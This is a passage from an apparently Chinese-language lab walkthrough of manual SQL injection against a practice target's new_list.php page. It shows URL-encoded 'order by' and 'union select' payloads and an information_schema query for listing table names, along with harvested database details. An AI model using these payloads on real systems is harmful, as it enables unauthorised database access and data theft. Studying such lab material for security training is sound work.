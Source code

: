 ![](https://gitee.com/YatJay/image/raw/master/img/202201281850987.png)

则说明有可能存在SQL注入

### 第2步： 猜解列名字段数量 order by

order by 4 显示正常  http://219.153.49.228:45239/new_list.php?id=1order%20by%204     %20是空格的url编码

![](https://gitee.com/YatJay/image/raw/master/img/202201282129738.png)

order by 5 显示异常  http://219.153.49.228:45239/new_list.php?id=1%20order%20by%205   %20是空格的url编码

![](https://gitee.com/YatJay/image/raw/master/img/202201282128749.png)

### 第3步：联合查询寻找输出点 union select 1,2,3,…,x

http://219.153.49.228:49521/new_list.php?id=-1 union select 1,2,3,4

![](https://gitee.com/YatJay/image/raw/master/img/202201291018184.png)

### 第4步：信息收集——库名、表名、字段名

#### 爆数据库基本信息

##### 爆数据库版本、数据库名

![](https://gitee.com/YatJay/image/raw/master/img/202201291030371.png)

##### 爆用户名、操作系统

![](https://gitee.com/YatJay/image/raw/master/img/202201291031647.png)

得到以下基础信息：

| 收集信息   | 值                      |
| ---------- | ----------------------- |
| 数据库版本 | 5.7.22-0ubuntu0.16.04.1 |
| 数据库名称 | mozhe_Discuz_StormGroup |
| 用户名     | root                    |
| 操作系统   | Linux                   |

#### 在系统自带数据库information_schema中爆表名和字段名

##### 查询指定数据库名下的所有表名信息：

在informa_schema数据库中指定`table_schema`字段(即数据库名)的值为`mozhe_Discuz_StormGroup`下的所有表名`table_name`信息：

```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=‘mozhe_Discuz_StormGroup’
```
